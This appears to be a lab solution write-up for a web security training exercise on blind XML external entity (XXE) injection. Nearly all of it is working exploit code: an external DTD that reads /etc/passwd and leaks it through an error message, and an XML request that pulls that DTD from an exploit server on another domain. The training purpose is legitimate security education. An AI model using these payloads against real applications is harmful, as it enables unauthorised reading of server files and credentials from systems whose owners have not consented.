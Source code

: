 # Exploiting blind XXE to retrieve data via error messages

## Exploiting blind XXE to retrieve data via error messages

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

Exploit:

```DTD
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Solution:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac1e1f871ef12ff8c0468369018e004d.web-security-academy.net/exploit.dtd"> %xxe; ]>
```